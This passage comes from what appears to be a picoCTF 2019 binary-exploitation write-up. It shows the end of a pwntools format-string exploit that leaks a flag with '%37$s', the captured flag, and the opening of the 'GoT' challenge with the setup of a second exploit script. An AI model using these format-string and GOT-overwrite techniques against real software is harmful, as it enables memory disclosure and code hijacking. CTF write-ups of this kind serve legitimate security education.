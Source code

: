 ```python
# for i in range(200):
#   start()
#   try:
#     sh.sendlineafter(':\n', '%{}$s'.format(i))
#     data = sh.recvall()
#     if 'pico' in data:
#       print data
#       exit()
#   except:
#     print 'pass'
start()

payload = '%37$s'
sh.sendlineafter(':\n', payload)
sh.interactive()
```

flag: `picoCTF{str1nG_CH3353_166b95b4}`

# GoT

## Problem

You can only change one address, here is the problem: program. It is also found in /problems/got_1_6a9949d39d119bd2973bdc661d78f71d on the shell server. Source.

[Binary](/blog/picoctf-2019-writeup/binary-exploitation/GoT/vuln)

[Source](/blog/picoctf-2019-writeup/binary-exploitation/GoT/vuln.c)

## Solution

This is a simple GOT overwrite challenge. It is the same as [got-shell?](/blog/posts/picoctf-2018-writeup/binary-exploitation/#got-shell) from last year.

Exploit script:

```python
from pwn import *
import sys

argv = sys.argv

DEBUG = True
BINARY = './vuln'

context.binary = BINARY
context.terminal = ['tmux', 'splitw', '-v']


def attach_gdb():
  gdb.attach(sh)


if DEBUG:
  context.log_level = 'debug'


if len(argv) < 2:
  stdout = process.PTY
  stdin = process.PTY

  sh = process(BINARY, stdout=stdout, stdin=stdin)

```